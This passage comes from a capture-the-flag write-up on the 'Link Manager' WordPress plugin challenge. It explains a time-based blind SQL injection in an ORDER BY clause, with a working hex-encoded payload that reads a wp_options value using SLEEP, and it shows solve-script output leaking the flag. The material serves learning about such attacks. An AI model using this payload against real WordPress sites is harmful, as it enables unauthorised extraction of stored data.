 Don't worry! In MySQL, we can use **hex characters** to avoid using single or double quote characters!

```shell
mysql> SELECT HEX('flag_links_data');
+--------------------------------+
| HEX('flag_links_data')         |
+--------------------------------+
| 666C61675F6C696E6B735F64617461 |
+--------------------------------+
```

**Final payload:**
```sql
(SELECT IF(MID( (SELECT option_value FROM wp_options WHERE option_name = 0x666C61675F6C696E6B735F64617461) ,<start_position>,1)=0x<hex_character_here>,SLEEP(1),NULL))
```

However, when we try the above payload in the remote instance, it won't work?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-WCUS-Capture-The-Flag/images/Pasted%20image%2020240921200031.png)

Maybe this is because **the `link_name` doesn't exist in the database**, thus the `ORDER BY` clause didn't get executed.

To solve this issue, we can first create a new link via AJAX action `submit_link`, then continue our SQL injection payload.

## Exploitation

Armed with the above information, we can write a solve script to exfiltrate the flag option's value!

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|20:00:45(HKT)]
└> python3 solve.py                                  
[*] Getting a valid AJAX nonce...
[+] Valid AJAX nonce: 1021da9893
[*] Creating a new submit link...
[+] Created a new submit link with name "bgbycaGVoe"
[*] Leaking the flag option via blind SQL injection in AJAX action "get_link_data"...
[*] Current leaking character: c at position 1
[+] Correct character c at position 1 | End time: 1.4865663051605225
[*] Current leaking character: t at position 2
[+] Correct character t at position 2 | End time: 1.4844286441802979
[*] Current leaking character: f at position 3
[+] Correct character f at position 3 | End time: 1.4852914810180664
[*] Current leaking character: { at position 4
[+] Correct character { at position 4 | End time: 1.4850826263427734
[...]
[*] Current leaking character: } at position 33
[+] Correct character } at position 33 | End time: 1.4851508140563965
[*] Current leaking character: _ at position 34
[-] Looped through all the possible characters
[+] Leaked characters: ctf{ord3ring_sql_inj3ction_links}
```

- **Flag: `CTF{ord3ring_sql_inj3ction_links}`**

## Conclusion

What we've learned:

1. Time-based SQL injection in `ORDER BY` clause